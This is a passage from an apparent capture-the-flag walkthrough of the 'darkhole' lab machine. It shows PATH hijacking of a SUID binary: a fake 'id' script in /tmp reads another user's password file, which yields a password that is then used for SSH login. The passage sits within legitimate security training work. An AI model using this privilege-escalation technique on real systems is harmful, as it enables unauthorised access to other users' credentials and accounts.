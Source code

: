 Luckily, $PATH is something we can control. So we can essentially alias the `id` command with anything we want if we create our own file and tell $PATH to use it first.

We always have write permissions to /tmp so lets start there.

Create a file called `id` in /tmp with a command in it. for example if we wanted to read the password file in johns diretory.
```
cat /home/john/password
```
```
www-data@darkhole:/home/john$ cd /tmp
www-data@darkhole:/tmp$ echo 'cat /home/john/password' > id
www-data@darkhole:/tmp$ ls -la
total 12
drwxrwxrwt  2 root     root     4096 Aug 23 03:55 .
drwxr-xr-x 20 root     root     4096 Jul 15 18:14 ..
-rw-r--r--  1 www-data www-data   24 Aug 23 03:55 id
www-data@darkhole:/tmp$ cat id
cat /home/john/password
```

Lets give the file execute permissions:
```
www-data@darkhole:/tmp$ chmod +x id
```
then update the $PATH:
```
www-data@darkhole:/tmp$ export PATH=/tmp:$PATH
```
```
www-data@darkhole:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
```

We use :$PATH in our export so that we don’t overwrite the existing variable, but just prepend our /tmp directory so that it gets checked first. now if we `which id` we see ours will run. and if we try to run it directly we get a permission denied error
```
www-data@darkhole:/tmp$ which id
/tmp/id
www-data@darkhole:/tmp$ id
cat: /home/john/password: Permission denied
```

Time to see what the binary does:
```
www-data@darkhole:/home/john$ ./toto
root123
```

and we have a password. which looking at it, we easily could have guessed/brute forced.

Now we could su up to John and steal the ssh private key we discovered earlier, but looking at the SSH config, password auth it good enough:

```
ssh john@$TARGETIP  
john@192.168.1.164's password:
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 23 Aug 2021 04:00:44 AM UTC

  System load:  0.15               Processes:              229
  Usage of /:   38.3% of 18.57GB   Users logged in:        0
  Memory usage: 43%                IPv4 address for ens33: 192.168.1.164
```